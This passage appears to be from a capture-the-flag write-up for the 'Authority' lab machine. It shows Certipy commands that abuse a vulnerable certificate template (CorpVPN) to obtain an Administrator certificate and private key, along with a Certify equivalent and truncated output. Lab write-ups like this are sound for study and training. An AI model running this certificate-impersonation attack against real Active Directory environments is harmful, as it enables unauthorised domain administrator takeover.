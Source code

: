 Certipy flags include:

- `-target` for specifying the target domain.
- `-ca` for indicating the Certificate Authority Name.
- `-upn` for specifying the target user, preferably a domain admin (Administrator).
- `-dns` for setting the DNS to `authority.authority.htb` (used solely for certificate request).
- `-template` for specifying the template to use (CorpVPN).

> Windows equivalent command ->
> `certify.exe request /ca:<$certificateAuthorityHost> /template:<$vulnerableCertificateTemplateName> /altname:<$adUserToImpersonate>`

```bash
❯ certipy req \
-u 'Abraxas$' -p 'Abraxas' \
-ca 'AUTHORITY-CA' -target authority.htb \
-upn Administrator@authority.htb -dns authority.authority.htb -dc-ip 10.10.11.222 \
-template CorpVPN
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error: Unknown DCE RPC fault status code: 00000721
[-] Use -debug to print a stacktrace
```

It seems that the commands encounter intermittent RPC errors, but the issue is resolved by retrying the command a few times. I'm not entirely sure about the exact reason for this.

```bash
❯ certipy req \
-u 'Abraxas$' -p 'Abraxas' \
-ca 'AUTHORITY-CA' -target authority.htb \
-upn Administrator@authority.htb -dns authority.authority.htb -dc-ip 10.10.11.222 \
-template CorpVPN
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 3
[*] Got certificate with multiple identifications
    UPN: 'Administrator@authority.htb'
    DNS Host Name: 'authority.authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_authority.pfx'
```

After running the command multiple times, I was able to get a certificate for Administrator.

```bash
❯ certipy cert -pfx certipy/administrator_authority.pfx
Certipy v4.7.0 - by Oliver Lyak (ly4k)

-----BEGIN CERTIFICATE-----
MIIGZDCCBUygAwIBAgITEwAAAANIw05iQpigHQAAAAAAAzANBgkqhkiG9w0BAQsF
ADBHMRMwEQYKCZImiZPyLGQBGRYDaHRiMRkwFwYKCZImiZPyLGQBGRYJYXV0aG9y
...snip...
...snip...
-----BEGIN PRIVATE KEY-----
MIIEvAIBADANBgkqhkiG9w0BAQEFAASCBKYwggSiAgEAAoIBAQC3VxxDWy0NYcqv
I6GJoU2qOnvyFMceyVihlIB6E73PVkA03Xhz0wB0t3IWXFUaS0ZaZAle0Q32QOcj
<--SNIP-->
<--SNIP-->
```
